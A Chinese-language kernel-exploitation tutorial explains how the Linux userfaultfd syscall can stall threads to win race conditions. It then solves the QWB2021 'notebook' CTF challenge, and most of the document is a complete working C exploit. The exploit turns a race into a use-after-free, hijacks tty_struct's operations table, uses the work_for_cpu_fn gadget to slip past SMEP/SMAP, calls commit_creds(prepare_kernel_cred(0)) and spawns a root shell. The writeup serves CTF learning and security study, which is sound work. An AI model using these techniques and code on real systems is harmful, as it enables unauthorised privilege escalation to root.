




# userfaultfd 的使用

## 概述

嚴格意義而言 userfaultfd 並非是一種利用手法，**而是 Linux 的一個系統調用**，簡單來說，通過 userfaultfd 這種機制，**用戶可以通過自定義的 page fault handler 在用戶態處理缺頁異常**。

下面的這張圖很好地體現了 userfaultfd 的整個流程：



要使用 userfaultfd 系統調用，我們首先要註冊一個 userfaultfd，通過 ioctl 監視一塊內存區域，同時還需要專門啓動一個用以進行輪詢的線程 `uffd monitor`，該線程會通過 `poll()` 函數不斷輪詢**直到出現缺頁異常**

- 當有一個線程在這塊內存區域內觸發缺頁異常時（比如說第一次訪問一個匿名頁），該線程（稱之爲 faulting 線程）進入到內核中處理缺頁異常
- 內核會調用 `handle_userfault()` 交由 userfaultfd 處理
- 隨後 faulting 線程進入堵塞狀態，同時將一個 `uffd_msg` 發送給 monitor 線程，等待其處理結束
- monitor 線程調用通過 ioctl 處理缺頁異常，有如下選項：
  - `UFFDIO_COPY`：將用戶自定義數據拷貝到 faulting page 上
  - `UFFDIO_ZEROPAGE` ：將 faulting page 置 0
  - `UFFDIO_WAKE`：用於配合上面兩項中 `UFFDIO_COPY_MODE_DONTWAKE` 和 `UFFDIO_ZEROPAGE_MODE_DONTWAKE` 模式實現批量填充 
- 在處理結束後 monitor 線程發送信號喚醒 faulting 線程繼續工作

以上便是 userfaultfd 這個機制的整個流程，該機制最初被設計來用以進行虛擬機/進程的遷移等用途，但是**通過這個機制我們可以控制進程執行流程的先後順序，從而使得對條件競爭的利用成功率大幅提高**，比如在如下的操作時：

```c
copy_from_user(kptr, user_buf, size);
```

如果在進入函數後，實際拷貝開始前線程被中斷換下 CPU，別的線程執行，修改了 kptr 指向的內存塊的所有權（比如 kfree 掉了這個內存塊），然後再執行拷貝時就可以實現 UAF。這種可能性當然是比較小的，但是如果 user_buf 是一個 mmap 的內存塊，並且我們爲它註冊了 userfaultfd，那麼在拷貝時出現缺頁異常後此線程會先執行我們註冊的處理函數，在處理函數結束前線程一直被暫停，結束後纔會執行後面的操作，大大增加了競爭的成功率。

## 使用方法

在 [Linux man page](https://man7.org/linux/man-pages/man2/userfaultfd.2.html) 當中便已經爲我們提供了 userfaultfd 的基本使用模板，我們只需要稍加修改便能直接投入到實戰當中，下面筆者給出自用的爲特定內存註冊 userfaultfd monitor 的模板：

```c
void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void register_userfaultfd(pthread_t *monitor_thread, void *addr,
                          unsigned long len, void *(*handler)(void*))
{
    long uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    int s;

    /* Create and enable userfaultfd object */
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1)
        err_exit("userfaultfd");

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
        err_exit("ioctl-UFFDIO_API");

    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = len;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
        err_exit("ioctl-UFFDIO_REGISTER");

    s = pthread_create(monitor_thread, NULL, handler, (void *) uffd);
    if (s != 0)
        err_exit("pthread_create");
}

```

我們可以直接通過如下操作來爲一塊匿名的 mmap 內存註冊 userfaultfd：

```c
register_userfaultfd(thread, addr, len, handler);
```

需要注意的是 handler 的寫法，這裏筆者直接照抄 Linux man page 改了改，可以根據個人需求進行個性化改動：

```c
static char *uffd_src_page = NULL; // 你要拷貝進去的數據
static long uffd_src_page_size = 0x1000;

static void *
fault_handler_thread(void *arg)
{
    static struct uffd_msg msg;
    static int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long) arg;

    for (;;) 
    {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        /*
         * [在這停頓.jpg]
         * 當 poll 返回時說明出現了缺頁異常
         * 你可以在這裏插入一些比如說 sleep() 一類的操作，
		 * 例如等待其他進程完成對象的重分配後再重新進行拷貝一類的，也可以直接睡死 ：）
         */

        if (nready == -1)
            errExit("poll");

        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0)
            errExit("EOF on userfaultfd!\n");

        if (nread == -1)
            errExit("read");

        if (msg.event != UFFD_EVENT_PAGEFAULT)
            errExit("Unexpected event on userfaultfd\n");

        uffdio_copy.src = (unsigned long) uffd_src_page;
        uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                              ~(uffd_src_page_size - 1);
        uffdio_copy.len = page_size;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
            errExit("ioctl-UFFDIO_COPY");
    }
}
```

## 例題：QWB2021-notebook

這裏以強網杯 2021 的 notebook 一題爲例解釋 userfaultfd 在條件競爭中的使用

### 分析

首先看一下啓動腳本

```shell
#!/bin/sh
stty intr ^]
qemu-system-x86_64 \
    -m 64M \
    -kernel bzImage \
    -initrd rootfs.cpio \
    -append "loglevel=3 console=ttyS0 oops=panic panic=1 kaslr" \
    -nographic -net user -net nic -device e1000 \
    -smp cores=2,threads=2 -cpu kvm64,+smep,+smap \
    -monitor /dev/null 2>/dev/null -s
```

append 時把 loglevel 開到了 3，建議把這個去掉，調試起來會好判斷一點（可以看到驅動 printk 的內容）。

程序的流程比較簡單，也沒有去符號，這裏就不分析了。程序主要的漏洞就是條件競爭造成的 UAF。

首先先說一下讀寫鎖，其性質爲

* 當寫鎖被取走時，所有取鎖操作被阻塞
* 當讀鎖被取走時，取寫鎖的操作被阻塞

恰當的使用讀寫鎖可以在提高程序性能的前提下保證線程同步。題目中的驅動程序在 noteedit 和 noteadd 操作中取了讀鎖，僅在 notedel 操作中取了寫鎖。其餘操作都沒有鎖保護。而兩個取讀鎖的操作實際上都有寫操作，但是他們又是可以併發的，這樣就很可能存在條件競爭的漏洞。


這是 noteedit 操作的部分代碼，這裏的 krealloc 並未對 newsize 做任何限制。同時並沒有及時更新 note 指針，反而在更新前加入了 copy_from_user 的操作，那麼就可以考慮通過 userfaultfd 操作卡死當前線程，避免 note 的更新，這樣就可以保留一個被 kfree 的 slab 的指針。這樣操作的問題是 note 的 size 被更新爲了 0，之後 read 和 write 操作就無法讀寫數據了。



不過在 add 操作時，也類似的在更新 size 前加入了 copy_from_user 的操作，我們也可以把線程卡死在這裏，把 size 改爲 0x60。

因此，我們可以做到

* 申請任意大小的 slab。雖然 add 操作限制了 size 最大爲 0x60，但是通過 edit 可以 krealloc 出任意大小的 slab
* UAF 任意大小的 slab。不過只能控制前 0x60 字節的數據

### 利用

由於 edit 函數中使用了 `copy_from_user()`，這爲 userfaultfd 的介入提供了可能性，我們可以：

- 分配一個特定大小的 note
- 新開 edit 線程通過 `krealloc(0)` 將其釋放**，並通過 userfaultfd 卡在這裏**

**此時 notebook 數組中的 object 尚未被清空，仍是原先被釋放了的 object，我們只需要再將其分配到別的內核結構體上便能完成 UAF**

這裏我們還是選擇最經典的 `tty_struct` 來完成利用，由於題目提供了讀取堆塊的功能，故我們可以直接通過 `tty_struct` 中的 `tty_operations` 泄露內核基地址，其通常被初始化爲**全局變量** `ptm_unix98_ops` 或 `pty_unix98_ops `

開啓了 kaslr 的內核在內存中的偏移依然以內存頁爲粒度，故我們可以通過比對 tty\_operations 地址的低三16進制位來判斷是 `ptm_unix98_ops` 還是 `pty_unix98_ops `

由於題目提供了寫入堆塊的功能，故我們可以直接通過修改 `tty_struct->tty_operations` 後操作 tty（例如read、write、ioctl...這會調用到函數表中的對應函數指針）的方式劫持內核執行流，同時 `notegift()` 會白給出 notebook 裏存的 object 的地址，那麼我們可以直接把 `fake tty_operations` 佈置到 note 當中。

不過相比於傳統的構造冗長的棧遷移的 ROP chain，長亭在 WP 中提到了一個很有趣的 trick，[原文鏈接](https://zhuanlan.zhihu.com/p/385645268)。這裏引用原文

> 控制 rip 之後，下一步就是繞過 SMEP 和 SMAP 了，這裏介紹一種在完全控制了 tty 對象的情況下非常好用的 trick，完全不用 ROP，非常簡單，且非常穩定（我們的 exploit 在利用成功和可以正常退出程序，甚至關機都不會觸發 kernel panic）。
>
> 內核中有這樣的一個函數：
>
> 
>
> 其編譯後大概長這樣：
>
> 
>
> 該函數位於 workqueue 機制的實現中，只要是開啓了多核支持的內核 （CONFIG_SMP）都會包含這個函數的代碼。不難注意到，這個函數非常好用，只要能控制第一個參數指向的內存，即可實現帶一個任意參數調用任意函數，並把返回值存回第一個參數指向的內存的功能，且該 "gadget" 能幹淨的返回，執行的過程中完全不用管 SMAP、SMEP 的事情。由於內核中大量的 read / write / ioctl 之類的實現的第一個參數也都恰好是對應的對象本身，可謂是非常的適合這種場景了。考慮到我們提權需要做的事情只是 commit_creds(prepare_kernel_cred(0))，完全可以用兩次上述的函數調用原語實現。（如果還需要禁用 SELinux 之類的，再找一個任意地址寫 0 的 gadget 即可，很容易找）

利用這個原語就可以比較容易的任意函數執行了。

在利用過程當中我們還需要注意兩點：

- 由於題目環境存在多個 CPU core，因此我們應當使用 `sched_setaffinity()` 將進程綁定到指定核心上，從而確保內核對象分配的穩定性，而無需進行堆噴射
- `tty_struct` 的結構也被我們所破壞了，在完成提權之後我們應該將其內容恢復原樣

### exp

最後進行穩定化提權的 exp 如下：

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <pthread.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <stdint.h>
#include <poll.h>

/**
 * Utilities
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * Kernel structure
 */

struct file;
struct file_operations;
struct tty_struct;
struct tty_driver;
struct serial_icounter_struct;
struct ktermios;
struct termiox;
struct seq_file;

struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver,
            struct file *filp, int idx);
    int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int  (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int  (*write)(struct tty_struct * tty,
              const unsigned char *buf, int count);
    int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    int  (*write_room)(struct tty_struct *tty);
    int  (*chars_in_buffer)(struct tty_struct *tty);
    int  (*ioctl)(struct tty_struct *tty,
            unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct *tty,
                 unsigned int cmd, unsigned long arg);
    void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
    void (*throttle)(struct tty_struct * tty);
    void (*unthrottle)(struct tty_struct * tty);
    void (*stop)(struct tty_struct *tty);
    void (*start)(struct tty_struct *tty);
    void (*hangup)(struct tty_struct *tty);
    int (*break_ctl)(struct tty_struct *tty, int state);
    void (*flush_buffer)(struct tty_struct *tty);
    void (*set_ldisc)(struct tty_struct *tty);
    void (*wait_until_sent)(struct tty_struct *tty, int timeout);
    void (*send_xchar)(struct tty_struct *tty, char ch);
    int (*tiocmget)(struct tty_struct *tty);
    int (*tiocmset)(struct tty_struct *tty,
            unsigned int set, unsigned int clear);
    int (*resize)(struct tty_struct *tty, struct winsize *ws);
    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
    int (*get_icount)(struct tty_struct *tty,
                struct serial_icounter_struct *icount);
    void (*show_fdinfo)(struct tty_struct *tty, struct seq_file *m);
#ifdef CONFIG_CONSOLE_POLL
    int (*poll_init)(struct tty_driver *driver, int line, char *options);
    int (*poll_get_char)(struct tty_driver *driver, int line);
    void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
    const struct file_operations *proc_fops;
};

/**
 * kernel-relaetd numerical value
 */

#define TTY_STRUCT_SIZE 0x2e0

#define PTM_UNIX98_OPS 0xffffffff81e8e440
#define PTY_UNIX98_OPS 0xffffffff81e8e320
#define COMMIT_CREDS 0xffffffff810a9b40
#define PREPARE_KERNEL_CRED 0xffffffff810a9ef0
#define WORK_FOR_CPU_FN 0xffffffff8109eb90

/**
 * Syscall userfaultfd() operator
 */
#define UFFD_API ((uint64_t)0xAA)
#define _UFFDIO_REGISTER		(0x00)
#define _UFFDIO_COPY			(0x03)
#define _UFFDIO_API			(0x3F)

/* userfaultfd ioctl ids */
#define UFFDIO 0xAA
#define UFFDIO_API		_IOWR(UFFDIO, _UFFDIO_API,	\
				      struct uffdio_api)
#define UFFDIO_REGISTER		_IOWR(UFFDIO, _UFFDIO_REGISTER, \
				      struct uffdio_register)
#define UFFDIO_COPY		_IOWR(UFFDIO, _UFFDIO_COPY,	\
				      struct uffdio_copy)

/* read() structure */
struct uffd_msg {
	uint8_t	event;

	uint8_t	reserved1;
	uint16_t	reserved2;
	uint32_t	reserved3;

	union {
		struct {
			uint64_t	flags;
			uint64_t	address;
			union {
				uint32_t ptid;
			} feat;
		} pagefault;

		struct {
			uint32_t	ufd;
		} fork;

		struct {
			uint64_t	from;
			uint64_t	to;
			uint64_t	len;
		} remap;

		struct {
			uint64_t	start;
			uint64_t	end;
		} remove;

		struct {
			/* unused reserved fields */
			uint64_t	reserved1;
			uint64_t	reserved2;
			uint64_t	reserved3;
		} reserved;
	} arg;
} __attribute__((packed));

#define UFFD_EVENT_PAGEFAULT	0x12

struct uffdio_api {
    uint64_t api;
    uint64_t features;
    uint64_t ioctls;
};

struct uffdio_range {
    uint64_t start;
    uint64_t len;
};

struct uffdio_register {
	struct uffdio_range range;
#define UFFDIO_REGISTER_MODE_MISSING	((uint64_t)1<<0)
#define UFFDIO_REGISTER_MODE_WP		((uint64_t)1<<1)
    uint64_t mode;
    uint64_t ioctls;
};


struct uffdio_copy {
	uint64_t dst;
	uint64_t src;
	uint64_t len;
#define UFFDIO_COPY_MODE_DONTWAKE		((uint64_t)1<<0)
	uint64_t mode;
	int64_t copy;
};

char temp_page_for_stuck[0x1000];

void register_userfaultfd(pthread_t *monitor_thread, void *addr,
                          unsigned long len, void *(*handler)(void*))
{
    long uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    int s;

    /* Create and enable userfaultfd object */
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1) {
        err_exit("userfaultfd");
    }

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1) {
        err_exit("ioctl-UFFDIO_API");
    }

    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = len;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1) {
        err_exit("ioctl-UFFDIO_REGISTER");
    }

    s = pthread_create(monitor_thread, NULL, handler, (void *) uffd);
    if (s != 0) {
        err_exit("pthread_create");
    }
}

void *uffd_handler_for_stucking_thread(void *args)
{
    struct uffd_msg msg;
    int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long) args;

    for (;;) {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1) {
            err_exit("poll");
        }

        nread = read(uffd, &msg, sizeof(msg));

        /* just stuck there is okay... */
        sleep(100000000);

        if (nread == 0) {
            err_exit("EOF on userfaultfd!\n");
        }

        if (nread == -1) {
            err_exit("read");
        }

        if (msg.event != UFFD_EVENT_PAGEFAULT) {
            err_exit("Unexpected event on userfaultfd\n");
        }

        uffdio_copy.src = (unsigned long long) temp_page_for_stuck;
        uffdio_copy.dst = (unsigned long long) msg.arg.pagefault.address &
                                                    ~(0x1000 - 1);
        uffdio_copy.len = 0x1000;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1) {
            err_exit("ioctl-UFFDIO_COPY");
        }

        return NULL;
    }
}

void register_userfaultfd_for_thread_stucking(pthread_t *monitor_thread, 
                                          void *buf, unsigned long len)
{
    register_userfaultfd(monitor_thread, buf, len, 
                         uffd_handler_for_stucking_thread);
}

/**
 * Challenge interactor
 */

#define NOTE_NUM 0x10

struct note {
    size_t idx;
    size_t size;
    char * buf;
};

struct knotebook {
    void *ptr;
    size_t size;
};

int note_fd;
sem_t evil_add_sem, evil_edit_sem;
char *uffd_buf;
char temp_page[0x1000] = { "arttnba3" };

void note_add(size_t idx, size_t size, char * buf)
{
    struct note note = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(note_fd, 0x100, &note);
}

void note_del(size_t idx)
{
    struct note note = {
        .idx = idx,
    };

    ioctl(note_fd, 0x200, &note);
}

void note_edit(size_t idx, size_t size, char * buf)
{
    struct note note = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(note_fd, 0x300, &note);
}

void note_gift(void *buf)
{
    struct note note = {
        .buf = buf,
    };

    ioctl(note_fd, 100, &note);
}

ssize_t note_read(int idx, void *buf)
{
    return read(note_fd, buf, idx);
}

ssize_t note_wriite(int idx, void *buf)
{
    return write(note_fd, buf, idx);
}

/**
 * Exploite stage
 */

void* fix_size_by_add(void *args)
{
    sem_wait(&evil_add_sem);
    note_add(0, 0x60, uffd_buf);
}

void* construct_uaf(void * args)
{
    sem_wait(&evil_edit_sem);
    note_edit(0, 0, uffd_buf);
}

int main(int argc, char **argv, char **envp)
{
    struct knotebook kernel_notebook[NOTE_NUM];
    struct tty_operations fake_tty_ops;
    pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
    size_t fake_tty_struct_data[0x100], tty_ops, orig_tty_struct_data[0x100];
    size_t tty_struct_addr, fake_tty_ops_addr;
    int tty_fd;

    /* fundamental infrastructure */
    save_status();
    bind_core(0);

    sem_init(&evil_add_sem, 0, 0);
    sem_init(&evil_edit_sem, 0, 0);

    /* open dev */
    note_fd = open("/dev/notebook", O_RDWR);
    if (note_fd < 0) {
        err_exit("failed to open /dev/notebook!");
    }

    /* register userfaultfd */
    puts("[*] register userfaultfd...");

    uffd_buf = (char *) mmap(
        NULL,
        0x1000,
        PROT_READ | PROT_WRITE, 
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
    register_userfaultfd_for_thread_stucking(
        &uffd_monitor_thread,
        uffd_buf,
        0x1000
    );

    /* get a tty-size object */
    puts("[*] allocating tty_struct-size object...");

    note_add(0, 0x10, "arttnba3rat3bant");
    note_edit(0, TTY_STRUCT_SIZE, temp_page);

    /**
     * construct UAF by userfaultfd.
     * Note that we need to sleep(1) there to wait for the kfree() to be done,
     * so that the UAF object can be regetted later.
    */
    puts("[*] constructing UAF on tty_struct...");

    pthread_create(&edit_uaf_thread, NULL, construct_uaf, NULL);
    pthread_create(&add_fix_size_thread, NULL, fix_size_by_add, NULL);

    sem_post(&evil_edit_sem);
    sleep(1);

    /**
     * fix notebook[0]->size.
     * Note that we need to sleep(1) there to wait for the `size` to be fixed.
    */
    sem_post(&evil_add_sem);
    sleep(1);

    /* leak kernel_base by tty_struct */
    puts("[*] leaking kernel_base by tty_struct");

    tty_fd = open("/dev/ptmx", O_RDWR| O_NOCTTY);
    note_read(0, orig_tty_struct_data);

    if (*(int*) orig_tty_struct_data != 0x5401) {
        err_exit("failed to hit the tty_struct!");
    }

    tty_ops = orig_tty_struct_data[3];
    kernel_offset = (tty_ops & 0xfff) == (PTY_UNIX98_OPS & 0xfff) 
                    ? (tty_ops - PTY_UNIX98_OPS)
                    : tty_ops - PTM_UNIX98_OPS;
    kernel_base += kernel_offset;
    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct fake tty_ops */
    puts("[*] construct fake tty_operations...");

    fake_tty_ops.ioctl = (void*) (kernel_offset + WORK_FOR_CPU_FN);
    note_add(1, 0x50, temp_page);
    note_edit(1, sizeof(struct tty_operations), temp_page);
    note_wriite(1, &fake_tty_ops);

    /* get kernel addr of tty_struct and tty_ops by gift */
    puts("[*] leaking kernel heap addr by gift...");

    note_gift(&kernel_notebook);
    tty_struct_addr = (size_t) kernel_notebook[0].ptr;
    fake_tty_ops_addr = (size_t) kernel_notebook[1].ptr;

    printf("[+] tty_struct at 0x%lx\n", tty_struct_addr);
    printf("[+] fake_tty_ops at 0x%lx\n", fake_tty_ops_addr);

    /* prepare_kernel_cred(NULL) */
    puts("[*] triger commit_creds(prepare_kernel_cred(NULL)) and fix tty...");

    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    fake_tty_struct_data[3] = fake_tty_ops_addr;
    fake_tty_struct_data[4] = kernel_offset + PREPARE_KERNEL_CRED;
    fake_tty_struct_data[5] = (size_t) NULL;

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* commit_creds(&root_cred) */
    note_read(0, fake_tty_struct_data);
    fake_tty_struct_data[4] = kernel_offset + COMMIT_CREDS;
    fake_tty_struct_data[5] = fake_tty_struct_data[6];
    fake_tty_struct_data[6] = orig_tty_struct_data[6];

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* fix tty_struct */
    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    note_wriite(0, fake_tty_struct_data);

    /* pop root shell */
    get_root_shell();

    return 0;
}
```

## 新版本內核對抗 userfaultfd 在 race condition 中的利用

正所謂“沒有萬能的銀彈”，可能有的人會發現在較新版本的內核中 userfaultfd 系統調用無法成功啓動：



這是因爲在較新版本的內核中修改了變量 `sysctl_unprivileged_userfaultfd` 的值：

> 來自 linux-5.11 源碼`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly;
//...
SYSCALL_DEFINE1(userfaultfd, int, flags)
{
    struct userfaultfd_ctx *ctx;
    int fd;

    if (!sysctl_unprivileged_userfaultfd &&
        (flags & UFFD_USER_MODE_ONLY) == 0 &&
        !capable(CAP_SYS_PTRACE)) {
        printk_once(KERN_WARNING "uffd: Set unprivileged_userfaultfd "
            "sysctl knob to 1 if kernel faults must be handled "
            "without obtaining CAP_SYS_PTRACE capability\n");
        return -EPERM;
    }
//...
```

> 來自 linux-5.4 源碼`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly = 1;
//...
```

在之前的版本當中 `sysctl_unprivileged_userfaultfd` 這一變量被初始化爲 `1`，而在較新版本的內核當中這一變量並沒有被賦予初始值，**編譯器會將其放在 bss 段，默認值爲 0**

這意味着在較新版本內核中**只有 root 權限才能使用 userfaultfd**，這或許意味着剛剛進入大衆視野的 userfaultfd 可能又將逐漸淡出大衆視野，但不可否認的是，userfaultfd 確乎爲我們在 Linux kernel 中的條件競爭利用提供了一個全新的思路與一種極其穩定的利用手法

## Reference

> [【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/)
> 
> [linux kernel pwn學習之條件競爭(二)userfaultfd](https://blog.csdn.net/seaaseesa/article/details/104650794?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-6.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-6.control)
>
> [https://zhuanlan.zhihu.com/p/385645268](https://zhuanlan.zhihu.com/p/385645268)
>
> [https://www.cjovi.icu/WP/1455.html](https://www.cjovi.icu/WP/1455.html)
>
> [https://www.cjovi.icu/WP/1468.html](https://www.cjovi.icu/WP/1468.html)
>
> [從內核到用戶空間(1) — 用戶態缺頁處理機制 userfaultfd 的使用](http://blog.jcix.top/2018-10-01/userfaultfd_intro/)

